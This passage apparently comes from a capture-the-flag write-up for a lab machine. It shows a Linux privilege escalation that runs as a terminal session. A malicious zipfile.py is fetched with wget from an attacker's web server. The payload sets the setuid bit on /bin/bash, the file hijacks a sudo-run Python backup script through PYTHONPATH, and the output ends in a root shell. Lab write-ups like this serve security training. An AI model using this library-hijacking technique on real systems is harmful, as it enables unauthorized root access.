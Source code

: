```powershell
            zip_file.write(
                file.absolute(),
                arcname=str(file.relative_to(object_to_backup_path)),
                compress_type=zipfile.ZIP_DEFLATED
            )
# Close the created zip file
zip_file.close()

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ 

```

`nano rootpython.py`

```powershell
import os
os.system('chmod +s /bin/bash')
```

```powershell
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ wget http://10.2.37.37:8000/rootpython.py

rootpython.py       100%[===================>]      42  --.-KB/s    in 0s      

2024-12-27 10:05:48 (6.57 MB/s) - ‘rootpython.py’ saved [42/42]

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ mv rootpython.py zipfile.py
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ sudo PYTHONPATH=/tmp/pip-jf81agq4-build /usr/bin/python3 /opt/backup.py
system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ ls -lhsa /bin/bash
-rwsr-sr-x 1 root root 1.1M Apr  4  2018 /bin/bash

system-adm@vulnnet-dotpy:/tmp/pip-jf81agq4-build$ /bin/bash -p

bash-4.4# whoami
root
bash-4.4# id
uid=1000(system-adm) gid=1000(system-adm) euid=0(root) egid=0(root) groups=0(root),24(cdrom),1000(system-adm)
bash-4.4# 

```